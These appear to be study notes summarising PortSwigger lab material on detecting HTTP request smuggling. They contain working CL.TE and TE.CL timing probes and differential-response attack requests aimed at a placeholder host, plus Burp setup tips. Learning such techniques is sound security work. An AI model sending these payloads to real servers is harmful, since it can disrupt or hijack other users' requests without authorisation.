 
https://portswigger.net/web-security/request-smuggling/finding
## 📌 Overview

Finding HTTP Request Smuggling (HRS) vulnerabilities requires **provoking differences in how front-end and back-end servers interpret requests**.

- The core idea is to craft **ambiguous HTTP messages** that cause servers to “wait” or “desync.”
    
- If a vulnerability exists, you can observe it through:
    
    - **Timing delays** (server stuck waiting).
        
    - **Differential responses** (evidence that one request interfered with another).
        

---

## 🕰️ Timing Techniques

### Why Timing Works

- If **servers disagree on boundaries**, one of them may wait for **more data** that never arrives.
    
- This **hangs the request**, producing an observable delay.
    
- Timing-based tests are **low-noise indicators** that something is wrong.
    

---

### ⏱️ Detecting CL.TE (Content-Length → Transfer-Encoding)

**Front-end uses CL**, **back-end uses TE**.

📌 **Payload**

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```

💡 **Why it works**

- Front-end trusts **CL=4**, forwards only part of the request (`1\nA`).
    
- Back-end sees **TE: chunked** → expects another chunk after `A`.
    
- Since it never arrives, the back-end **waits**, causing a delay.
    

---

### ⏱️ Detecting TE.CL (Transfer-Encoding → Content-Length)

**Front-end uses TE**, **back-end uses CL**.

📌 **Payload**

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

💡 **Why it works**

- Front-end interprets request as **chunked**, stops at `0`.
    
- Back-end uses **CL=6**, so it expects **more bytes**.
    
- Back-end waits for missing data (`X` is ignored), creating a delay.
    

---

⚠️ **Important Testing Note**

- Always test **CL.TE first**.
    
- If the app is vulnerable to CL.TE, sending a TE.CL test could disrupt other users (their requests get stuck).
    

---

## 📑 Confirming Vulnerabilities – Differential Responses

### Why Differential Responses?

Timing only tells you _something is wrong_.  
Differential responses **prove exploitability** by showing one request **modifies another**.

🔬 Strategy:

1. Send an **attack request** that spills into the next request.
    
2. Immediately send a **normal request**.
    
3. If the normal request is corrupted, the vulnerability is confirmed.

---

### ✅ Confirming CL.TE via Differential Responses

**Attack Request**

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

**Why it works**

- Front-end trusts **CL=49**, sends full body to back-end.
    
- Back-end uses **TE: chunked** → interprets `GET /404` as the **start of a new request**.
    
- This “smuggled” request **bleeds into the next user’s request**.
    

**Normal Request**

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

💥 Result:  
The normal request is corrupted:

```http
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
...
```

Back-end returns `404` → clear evidence of CL.TE vulnerability.

https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses
---

### ✅ Confirming TE.CL via Differential Responses

**Attack Request**

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0
```

⚠️ _Setup for Burp:_

- Uncheck **"Update Content-Length"** in Repeater.
    
- Ensure request ends with `\r\n\r\n` after final `0`.
    

**Why it works**

- Front-end processes **chunked body** until `0`.
    
- Back-end relies on **CL=4**, so it **splits differently**.
    
- `GET /404` gets injected into the next request.
    

**Normal Request** (same as above).  
Result: Corrupted with `GET /404`, proving TE.CL vulnerability.

https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses

---

## ⚠️ Key Considerations When Testing

- **Separate Connections:** Attack & normal requests must use **different TCP connections**. If both are sent over the same one, smuggling won’t be detected.
    
- **Consistency:** Use the **same URL and parameters** for both requests → ensures they hit the same back-end.
    
- **Race Condition:** Must send normal request **immediately after** attack. On busy apps, retry multiple times.
    
- **Load Balancers:** Requests may be routed to different back-ends. Multiple attempts may be needed.
    
- **Impact on Others:** If your smuggled payload interferes with another user instead of your test request, you’ve disrupted them. Proceed with **extreme caution**.
    

---

## 🧠 Key Takeaways

- **Timing tests** reveal possible smuggling → server waits for incomplete request.
    
- **Differential responses** confirm smuggling → one request corrupts the next.
    
- **CL.TE vs TE.CL:** Test in order (CL.TE first) to avoid collateral disruption.
    
- **Testing must be careful** → vulnerable sites can affect other users if probed recklessly.
    

---

